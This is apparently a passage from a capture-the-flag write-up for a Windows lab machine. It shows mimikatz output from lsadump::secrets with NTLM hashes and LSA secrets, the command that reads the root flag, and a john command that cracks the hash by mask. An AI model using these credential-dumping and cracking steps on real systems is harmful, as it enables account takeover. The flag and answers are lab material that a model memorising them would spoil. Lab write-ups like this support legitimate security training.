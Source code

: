 RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: 30e87bf999828446a1c1209ddde4c450

mimikatz # lsadump::secrets
Domain : BLUEPRINT
SysKey : 147a48de4a9815d2aa479598592b086f

Local name : BLUEPRINT ( S-1-5-21-3130159037-241736515-3168549210 )
Domain name : WORKGROUP

Policy subsystem is : 1.11
LSA Key(s) : 1, default {5a999efc-4a4d-decc-fd1d-b1680771d57f}
  [00] {5a999efc-4a4d-decc-fd1d-b1680771d57f} d2fb4bc35f775701ba85064053ac995d5adafee06b8c9fa2b14d5667f498f121

Secret  : DefaultPassword
cur/text: malware
old/text: ROOT#123

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 9b d2 f1 7b 53 8d a4 07 6b f2 ec ff 91 dd df a9 35 98 c2 80 25 1d e6 77 56 4f 95 0b b6 43 b8 d7 fd fa fe c7 84 a7 30 d1 
    full: 9bd2f17b538da4076bf2ecff91dddfa93598c280251de677564f950bb643b8d7fdfafec784a730d1
    m/u : 9bd2f17b538da4076bf2ecff91dddfa93598c280 / 251de677564f950bb643b8d7fdfafec784a730d1
old/hex : 01 00 00 00 e5 73 9c b0 a3 cd 14 2c cb 8d ab bb fa dd ab 50 e6 2e d3 81 69 aa b3 a2 b0 2d 50 4b 5f aa 80 18 3c 89 e5 92 e1 eb a7 44 
    full: e5739cb0a3cd142ccb8dabbbfaddab50e62ed38169aab3a2b02d504b5faa80183c89e592e1eba744
    m/u : e5739cb0a3cd142ccb8dabbbfaddab50e62ed381 / 69aab3a2b02d504b5faa80183c89e592e1eba744



Directory of C:\Users\Administrator\Desktop

11/27/2019  07:15 PM    <DIR>          .
11/27/2019  07:15 PM    <DIR>          ..
11/27/2019  07:15 PM                37 root.txt.txt
               1 File(s)             37 bytes
               2 Dir(s)  19,304,919,040 bytes free

C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}



##  Crack the hash

https://crackstation.net/

=> googleplus


sudo john -mask=?l?l?l?l?l?l?d?d --format=NT lab.john

